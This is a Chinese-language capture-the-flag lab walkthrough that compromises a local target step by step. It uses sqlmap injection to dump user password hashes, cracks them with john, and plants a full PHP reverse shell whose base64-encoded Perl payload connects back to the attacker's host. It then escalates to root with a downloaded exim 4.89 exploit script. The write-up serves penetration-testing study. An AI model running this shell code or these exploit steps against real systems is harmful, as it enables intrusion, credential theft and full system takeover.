 # 端口发现
nmap -sP 192.168.31.0/24
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668747328532-8fdc13fc-3551-478e-a23f-5b5c3c3a04ed.png#averageHue=%2329313d&clientId=u7c515975-21e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=323&id=ueca1960b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=323&originWidth=1169&originalType=binary&ratio=1&rotation=0&showTitle=false&size=100264&status=done&style=none&taskId=uf4cd4f6f-28f5-445c-b1ea-391710a5c3e&title=&width=1169)
nmap -p- -A 192.168.31.150
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668747361817-4f230afb-dc61-436d-8491-9159f2d99ba3.png#averageHue=%2328313e&clientId=u7c515975-21e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=386&id=u0ddca329&margin=%5Bobject%20Object%5D&name=image.png&originHeight=386&originWidth=1216&originalType=binary&ratio=1&rotation=0&showTitle=false&size=110877&status=done&style=none&taskId=u12da2139-d9b5-40ca-9686-c54525d7f0c&title=&width=1216)
# web 突破
dirb 扫后台
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668748341308-175be48b-af73-4ff4-bfcc-66164a5f0551.png#averageHue=%232d3a4a&clientId=u7c515975-21e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=201&id=ud21f4b39&margin=%5Bobject%20Object%5D&name=image.png&originHeight=201&originWidth=625&originalType=binary&ratio=1&rotation=0&showTitle=false&size=75588&status=done&style=none&taskId=u8cbf3fa1-7812-44c1-907e-b8572fae0a3&title=&width=625)
有个 user ，是登陆界面
访问 80 端口，随便点击后发现 url 变化
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668747603908-5fdd2058-e3e5-44a4-9d6e-2e93ac2a9361.png#averageHue=%23d2d2cf&clientId=u7c515975-21e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=917&id=u95ea1ab6&margin=%5Bobject%20Object%5D&name=image.png&originHeight=917&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=108344&status=done&style=none&taskId=udff161cb-aae8-4e96-9ec3-c65893a3c98&title=&width=1920)
?nid=1
想到 sql 注入
扫描当前使用的数据库：
sqlmap -u "http://192.168.31.150/?nid=1" --current-db --batch
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668747818631-6a426166-e1dd-476e-ba93-2dc4e15ffdde.png#averageHue=%2329323f&clientId=u7c515975-21e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=195&id=u1d49d8df&margin=%5Bobject%20Object%5D&name=image.png&originHeight=195&originWidth=960&originalType=binary&ratio=1&rotation=0&showTitle=false&size=60044&status=done&style=none&taskId=udef75607-13a2-4633-acde-6ee922bee54&title=&width=960)
当前数据库为 d7db
扫描数据库中的表
sqlmap -u "http://192.168.31.150/?nid=1" -D "d7db" --tables --batch
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668747896440-59eb1947-c95e-47f2-9c94-c134a07456a5.png#averageHue=%23283342&clientId=u7c515975-21e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=490&id=ue173fcee&margin=%5Bobject%20Object%5D&name=image.png&originHeight=490&originWidth=403&originalType=binary&ratio=1&rotation=0&showTitle=false&size=28999&status=done&style=none&taskId=u6f8ae7be-5655-459c-9ca7-77c2e5778fc&title=&width=403)
表有点多，扫 users 表的字段
sqlmap -u "http://192.168.31.150/?nid=1" -D "d7db" -T "users" --columns --batch
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668747948718-cb030b0e-c803-49db-8f63-a2d4f754ae08.png#averageHue=%23262e3a&clientId=u7c515975-21e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=467&id=u50d15a80&margin=%5Bobject%20Object%5D&name=image.png&originHeight=467&originWidth=1236&originalType=binary&ratio=1&rotation=0&showTitle=false&size=97727&status=done&style=none&taskId=uf9123592-ec6d-4d65-88ac-5fd563f03f6&title=&width=1236)
dump 出 name 和 pass 字段
sqlmap -u "http://192.168.31.150/?nid=1" -D "d7db" -T "users" -C "name,pass" --dump --batch
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668747999820-3bb5af34-6c98-4515-b5cf-3a85063fcadf.png#averageHue=%23293442&clientId=u7c515975-21e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=277&id=uca18cf60&margin=%5Bobject%20Object%5D&name=image.png&originHeight=277&originWidth=673&originalType=binary&ratio=1&rotation=0&showTitle=false&size=65336&status=done&style=none&taskId=ude44257b-c65e-45bd-8c14-b141b1e451b&title=&width=673)
使用 john 解密
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668748132259-e3fe8a0a-3c1c-423e-b589-e47b79af3c5e.png#averageHue=%23293340&clientId=u7c515975-21e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=444&id=u22fe5819&margin=%5Bobject%20Object%5D&name=image.png&originHeight=444&originWidth=929&originalType=binary&ratio=1&rotation=0&showTitle=false&size=129063&status=done&style=none&taskId=u566d4ac8-1b22-4910-a72a-39a4cf76d24&title=&width=929)
得到一个账户 john：turtle
admin 解不出来
去 /user 登录
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668748393333-bc41ca08-5c11-4c78-b01a-10fb208c6eb1.png#averageHue=%23f4f2e1&clientId=u7c515975-21e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=590&id=u737cb5c9&margin=%5Bobject%20Object%5D&name=image.png&originHeight=590&originWidth=1159&originalType=binary&ratio=1&rotation=0&showTitle=false&size=47404&status=done&style=none&taskId=u1798884c-c6b3-469c-a282-080868bf42a&title=&width=1159)
登录成功
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668748418184-ab2393d5-c9b1-469d-84b8-4091ca43bff3.png#averageHue=%23b7b7b4&clientId=u7c515975-21e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=783&id=u65dded4b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=783&originWidth=1539&originalType=binary&ratio=1&rotation=0&showTitle=false&size=59481&status=done&style=none&taskId=ue657d35b-b301-4461-82f6-1be30b157f9&title=&width=1539)
主页 Contact us -> Webform -> Form settings 可以编辑内容
写入 反弹 shell
反弹 shell：
```php
<?php
function which($pr) {
$path = execute("which $pr");
return ($path ? $path : $pr);
}
function execute($cfe) {
$res = '';
if ($cfe) {
if(function_exists('exec')) {
@exec($cfe,$res);
$res = join("\n",$res);
} elseif(function_exists('shell_exec')) {
$res = @shell_exec($cfe);
} elseif(function_exists('system')) {
@ob_start();
@system($cfe);
$res = @ob_get_contents();
@ob_end_clean();
} elseif(function_exists('passthru')) {
@ob_start();
@passthru($cfe);
$res = @ob_get_contents();
@ob_end_clean();
} elseif(@is_resource($f = @popen($cfe,"r"))) {
$res = '';
while(!@feof($f)) {
$res .= @fread($f,1024);
}
@pclose($f);
}
}
return $res;
}
function cf($fname,$text){
if($fp=@fopen($fname,'w')) {
@fputs($fp,@base64_decode($text));
@fclose($fp);
}
}
$yourip = "192.168.31.128"; 
$yourport = '4444';
$usedb = array('perl'=>'perl','c'=>'c');
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj"."aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR"."hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT"."sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI"."kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi"."KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl"."OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw==";
cf('/tmp/.bc',$back_connect);
$res = execute(which('perl')." /tmp/.bc $yourip $yourport &");
?>

```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668749322412-a52f5c0c-e297-4369-b791-df1f91a2820a.png#averageHue=%23d6d5d2&clientId=u7c515975-21e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=759&id=u5ca016bd&margin=%5Bobject%20Object%5D&name=image.png&originHeight=759&originWidth=1918&originalType=binary&ratio=1&rotation=0&showTitle=false&size=103961&status=done&style=none&taskId=u038d285d-8ec0-444b-9493-29eed548a5e&title=&width=1918)
保存，kali 开启监听
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668749335587-1472517e-a6d4-4753-9919-09ac8fa4f563.png#averageHue=%23283240&clientId=u7c515975-21e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=149&id=u7d6564a2&margin=%5Bobject%20Object%5D&name=image.png&originHeight=149&originWidth=581&originalType=binary&ratio=1&rotation=0&showTitle=false&size=25809&status=done&style=none&taskId=ude60cfa7-8d46-4e74-bb1a-6efc97a3b8b&title=&width=581)
连接成功
python 优化 shell
python -c 'import pty;pty.spawn("/bin/bash")'
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668749392512-b36d166b-f27c-4883-a25b-fe60b6232cb4.png#averageHue=%232b3644&clientId=u7c515975-21e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=53&id=ud3c6f0f4&margin=%5Bobject%20Object%5D&name=image.png&originHeight=53&originWidth=435&originalType=binary&ratio=1&rotation=0&showTitle=false&size=8519&status=done&style=none&taskId=u77f3c50c-fb2b-4ea9-b292-77aca8b508c&title=&width=435)
# 提权
find / -perm -u=s -type f 2>/dev/null  或 find / -user root -perm -4000 -print 2>/dev/null
find 查找具有 suid 权限的命令
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668749732123-534af2c9-c69c-47c0-b198-fc7f4cb48d9d.png#averageHue=%23262f3c&clientId=ub642a172-374c-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=292&id=u4e39bc7f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=292&originWidth=676&originalType=binary&ratio=1&rotation=0&showTitle=false&size=45720&status=done&style=none&taskId=ua8671cea-8268-47b9-a040-25f085c8efa&title=&width=676)
exim4 没见过
_ Exim是一个MTA（_**_Mail Transfer Agent，邮件传输代理_**_）服务器软件，该软件基于_[_GPL协议_](https://baike.baidu.com/item/GPL%E5%8D%8F%E8%AE%AE?fromModule=lemma_inlink)_开发，是一款_[_开源软件_](https://baike.baidu.com/item/%E5%BC%80%E6%BA%90%E8%BD%AF%E4%BB%B6/8105369?fromModule=lemma_inlink)_。该软件主要运行于_[_类UNIX系统_](https://baike.baidu.com/item/%E7%B1%BBUNIX%E7%B3%BB%E7%BB%9F?fromModule=lemma_inlink)_。通常该软件会与_[_Dovecot_](https://baike.baidu.com/item/Dovecot?fromModule=lemma_inlink)_或Courier等软件搭配使用。Exim同时也是“进出口”（_**_Export-Import_**_）的英文缩写。  _
searchsploit exim
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668749931153-63ac878d-dd83-4c38-9939-42c85674b9e5.png#averageHue=%232a3340&clientId=u5ea168b1-3808-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=482&id=u6c77b5b9&margin=%5Bobject%20Object%5D&name=image.png&originHeight=482&originWidth=1179&originalType=binary&ratio=1&rotation=0&showTitle=false&size=182473&status=done&style=none&taskId=u3f35990e-4450-499c-be27-001b12306a6&title=&width=1179)
不知道 exim 的版本，所以不知道用哪个
回到靶机，查看版本
exim --version
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668749996522-72340e78-6e39-4144-a3fc-486e2c00b847.png#averageHue=%232b3543&clientId=u5ea168b1-3808-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=298&id=ufc097ece&margin=%5Bobject%20Object%5D&name=image.png&originHeight=298&originWidth=701&originalType=binary&ratio=1&rotation=0&showTitle=false&size=80577&status=done&style=none&taskId=u8ea8a6d2-95be-4572-b7f7-250c98a2c92&title=&width=701)
exim 4.89
回到 kali 
cp 
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668750218396-3a13a6c6-b7ea-4815-ae6e-1a77652629cb.png#averageHue=%2327313d&clientId=u5ea168b1-3808-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=128&id=ud14db7a2&margin=%5Bobject%20Object%5D&name=image.png&originHeight=128&originWidth=1009&originalType=binary&ratio=1&rotation=0&showTitle=false&size=32281&status=done&style=none&taskId=ue0d79d0c-1614-4cb4-a439-bf6b043e4ce&title=&width=1009)
dos2unix 转换文件（使 windows 代码可以在 unix 上运行）
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668750273439-beaf87d3-0417-49a6-9e31-fef13c092f28.png#averageHue=%232a3341&clientId=u5ea168b1-3808-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=112&id=u16c0d892&margin=%5Bobject%20Object%5D&name=image.png&originHeight=112&originWidth=438&originalType=binary&ratio=1&rotation=0&showTitle=false&size=20381&status=done&style=none&taskId=ufe8e962c-3e8e-4471-b08c-6c982eb69e5&title=&width=438)
kali 开启 http 服务
python3 -m http.server 8001
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668750914767-f3261881-aa3a-49fb-99fd-63f84004dd33.png#averageHue=%23293341&clientId=ufad91281-d85b-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=127&id=ub7cbb133&margin=%5Bobject%20Object%5D&name=image.png&originHeight=127&originWidth=694&originalType=binary&ratio=1&rotation=0&showTitle=false&size=27874&status=done&style=none&taskId=u0547f50c-c147-4740-a9f2-dda13508920&title=&width=694)
靶机下载 脚本（切换到 /tmp 下下载，家目录不让写入，无权限）
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668750939700-6c375473-a3b3-4c81-aae6-fd752408b6c3.png#averageHue=%2329323f&clientId=ufad91281-d85b-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=280&id=u884366f5&margin=%5Bobject%20Object%5D&name=image.png&originHeight=280&originWidth=686&originalType=binary&ratio=1&rotation=0&showTitle=false&size=56664&status=done&style=none&taskId=uc166e4dc-2f8b-4709-8648-37ce26fd034&title=&width=686)
赋权并执行脚本
chmod 777 46996.sh
./46996.sh -m netcat  （有时候会掉，重新运行即可）
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668751052496-295b2177-0e51-4c03-9935-fea1ca4f7e84.png#averageHue=%2328313e&clientId=ufad91281-d85b-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=417&id=ue0b02b48&margin=%5Bobject%20Object%5D&name=image.png&originHeight=417&originWidth=626&originalType=binary&ratio=1&rotation=0&showTitle=false&size=77877&status=done&style=none&taskId=u8fddd9dc-c47e-4a66-8891-88fa451db81&title=&width=626)
提权成功，拿 flag
cd /root
ls
cat flag.txt
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668751148503-9d6ab3bd-63a6-49dc-8568-ab20042186ba.png#averageHue=%23293340&clientId=ufad91281-d85b-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=489&id=u354f4205&margin=%5Bobject%20Object%5D&name=image.png&originHeight=489&originWidth=1025&originalType=binary&ratio=1&rotation=0&showTitle=false&size=78934&status=done&style=none&taskId=u930986cb-eec0-4250-9cb5-51d291b6326&title=&width=1025)
